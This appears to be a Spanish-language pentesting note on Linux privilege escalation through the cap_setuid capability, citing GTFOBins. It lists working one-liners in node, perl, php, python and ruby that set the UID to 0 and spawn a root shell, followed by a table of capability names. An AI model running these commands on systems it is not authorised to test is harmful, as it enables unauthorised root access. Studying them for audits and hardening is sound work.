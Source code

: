 Mediante la pagina GTFObins muestra diferentes ejemplos de los binarios que podemos explotar si tienen essta capabilitie del cap_setuid+ep. Por ejemplo:

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
si node tiene la capabilitie:

./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

si perl tiene la capabilitie:

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

si php tiene la capabilitie:

CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"

si python tiene la capabilitie:

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

si ruby tiene la capabilitie:

./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'

```

Ejecutando el comando segun el binario debera abrirse una terminal como el usuario Root.

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypass file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |
| CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |
